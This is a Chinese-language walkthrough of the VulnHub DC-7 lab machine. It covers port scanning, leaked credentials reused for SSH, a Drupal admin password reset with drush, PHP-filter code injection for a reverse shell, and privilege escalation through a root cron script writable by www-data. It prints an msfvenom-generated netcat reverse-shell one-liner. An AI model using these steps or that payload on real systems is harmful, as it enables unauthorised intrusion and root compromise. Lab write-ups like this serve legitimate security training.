# DC 7

下载地址：https://download.vulnhub.com/dc/DC-7.zip

## 实战演练

靶场IP地址:`192.168.32.166`



扫描对外端口

```
┌──(root💀kali)-[~]
└─# nmap -p1-65535 192.168.32.166                                                                                                                                                                                                     
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-13 01:44 EDT
Nmap scan report for 192.168.32.166
Host is up (0.00068s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:85:DD:9B (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.66 seconds
```

浏览器访问80端口,发现web框架是`Drupal`



扫描drupal没有发现什么东西

```
┌──(root💀kali)-[/opt/droopescan-master]
└─# docker run  droopescan scan drupal  -u  http://192.168.32.166
[+] No plugins found.                                                           

[+] Themes found:
    startupgrowth_lite http://192.168.32.166/themes/startupgrowth_lite/
        http://192.168.32.166/themes/startupgrowth_lite/LICENSE.txt

[+] Possible version(s):
    8.7.0
    8.7.0-alpha1
    8.7.0-alpha2
    8.7.0-beta1
    8.7.0-beta2
    8.7.0-rc1
    8.7.1
    8.7.10
    8.7.11
    8.7.12
    8.7.13
    8.7.14
    8.7.2
    8.7.3
    8.7.4
    8.7.5
    8.7.6
    8.7.7
    8.7.8
    8.7.9

[+] Possible interesting urls found:
    Default admin - http://192.168.32.166/user/login

[+] Scan finished (0:02:01.475158 elapsed)
```

Google搜索`@DC7USER`,发现一个源码仓库



在config.php找到一个用户和密码

```
<?php
	$servername = "localhost";
	$username = "dc7user";
	$password = "MdR3xOgB7#dW";
	$dbname = "Staff";
	$conn = mysqli_connect($servername, $username, $password, $dbname);
?>
```



使用这个密码进行SSH登录,发现可以登录成功



查看`mbox`文件

```
dc7user@dc-7:~$ cat mbox 

From root@dc-7 Thu Aug 29 17:00:22 2019
Return-path: <root@dc-7>
Envelope-to: root@dc-7
Delivery-date: Thu, 29 Aug 2019 17:00:22 +1000
Received: from root by dc-7 with local (Exim 4.89)
        (envelope-from <root@dc-7>)
        id 1i3EPu-0000CV-5C
        for root@dc-7; Thu, 29 Aug 2019 17:00:22 +1000
From: root@dc-7 (Cron Daemon)
To: root@dc-7
Subject: Cron <root@dc-7> /opt/scripts/backups.sh
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
X-Cron-Env: <PATH=/bin:/usr/bin:/usr/local/bin:/sbin:/usr/sbin>
X-Cron-Env: <SHELL=/bin/sh>
X-Cron-Env: <HOME=/root>
X-Cron-Env: <LOGNAME=root>
Message-Id: <E1i3EPu-0000CV-5C@dc-7>
Date: Thu, 29 Aug 2019 17:00:22 +1000

Database dump saved to /home/dc7user/backups/website.sql               [success]
gpg: symmetric encryption of '/home/dc7user/backups/website.tar.gz' failed: File exists
gpg: symmetric encryption of '/home/dc7user/backups/website.sql' failed: File exists

```

发现一个定时计划

```
dc7user@dc-7:~$ cat /opt/scripts/backups.sh
#!/bin/bash
rm /home/dc7user/backups/*
cd /var/www/html/
drush sql-dump --result-file=/home/dc7user/backups/website.sql
cd ..
tar -czf /home/dc7user/backups/website.tar.gz html/
gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --symmetric /home/dc7user/backups/website.sql
gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --symmetric /home/dc7user/backups/website.tar.gz
chown dc7user:dc7user /home/dc7user/backups/*
rm /home/dc7user/backups/website.sql
rm /home/dc7user/backups/website.tar.gz

dc7user@dc-7:~$ ls -al /opt/scripts/backups.sh
-rwxrwxr-x 1 root www-data 520 Aug 29  2019 /opt/scripts/backups.sh
```

上面分析表明，脚本每三分钟被root执行一次，而www-data的用户是有写权限的，所以我们需要想办法获得这个权限，写shell反弹。

于是，我在 google 上查看了 drush 命令，发现了一个用于更改帐户密码的命令。

```
dc7user@dc-7:/var/www/html$ ls
autoload.php  composer.json  composer.lock  core  example.gitignore  index.php  INSTALL.txt  LICENSE.txt  modules  profiles  README.txt  robots.txt  sites  themes  update.php  vendor  web.config
dc7user@dc-7:/var/www/html$ drush user-password admin --password=test
Changed password for admin  
```

访问管理控制台后，是时候通过在其中注入恶意内容来利用 Web 应用程序了。直接将恶意脚本编写为网页内容不会给我们应用程序的反向外壳，但经过一段时间后，我们得出结论，它需要 PHP 模块。因此，我们通过**管理>扩展>列表>安装新模块来安装新模块。**



您可以从下面的 URL 下载 Drupal 的 PHP 包并上传 tar 文件以安装新模块。

> https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz


安装完成



再次，移动到Manage > Extend >filters并启用 PHP filters 的复选框。



现在使用 Pentest Monkey PHP 脚本，即"reverse shell backdoor.php"作为基本内容注入。不要忘记添加"侦听 IP 和端口"以获得反向连接。继续将"文本格式更改为 PHP"并启用发布复选框。保持 netcat 监听器开启，以便接收传入的 shell。

一切设置正确后，单击预览按钮，您将通过 netcat 获得反向连接。





伟大的！！我们的 netcat 会话是 www-data，如果您检查 /opt/scripts/backup.sh 的权限，您会注意到 www-data 拥有访问或修改此文件的所有权限。因此，我们可以通过修改源文件的内容来滥用用户文件的权限来提升权限。

生成反弹shell

```
┌──(root💀kali)-[/opt/droopescan-master]
└─# msfvenom -p cmd/unix/reverse_netcat lhost=192.168.32.130 lport=9999 R

[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 100 bytes
mkfifo /tmp/yvixve; nc 192.168.32.130 9999 0</tmp/yvixve | /bin/sh >/tmp/yvixve 2>&1; rm /tmp/yvixve
```

添加shell到计划任务


